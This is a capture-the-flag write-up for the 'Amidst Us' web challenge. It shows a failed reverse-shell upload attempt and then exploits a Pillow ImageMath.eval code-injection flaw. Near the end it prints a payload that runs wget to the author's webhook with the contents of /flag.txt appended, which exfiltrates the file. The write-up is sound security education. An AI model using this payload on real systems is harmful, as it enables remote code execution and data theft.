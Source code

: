 # Amidst Us

We start off with a weird page where we can select a color that does not seem to do anything:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

When clicking in the spaceship at the center of the website we can click on it and upload a file:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If i upload a php reverseshell.php i get blocked but if i submit a reverseshell.php.jpg it seems to send at least a request:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i did not manage to do anything with that so i came back and tried to go slower:

I just go and look at how the app reacts when i upload a normal hackergobrrr.png image:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i went and looked at how the image was treated since there was some sort of b64 string directly related to it and saw this:



and when i googled what this was i saw the first link that seemed interesting:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and indeed we have this function:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after googling around this exploit i found this:

{% embed url="https://github.com/advisories/GHSA-8vj2-vxx3-667w" %}

`PIL.ImageMath.eval` in Pillow before 9.0.0 allows evaluation of arbitrary expressions, such as ones that use the Python exec method `ImageMath.eval("exec(exit())")`.

so we need to take that and craft something that would lead to RCE or file reading:

```
ImageMath.eval("__import__('os').system('wget https://webhook.site/aa31223b-35e4-4679-aa22-8ea194c82870?flag=$(cat /flag.txt)')")
```

i put my payload in the eval function so everyone can see how the imagemath would handle it, so here we import os and send a request to a webhook server that i own and append the flag to the request so we can exfiltrate it:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I replace one of the 3 values with my payload and hit send and look at my webhook:

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's flagged&#x20;
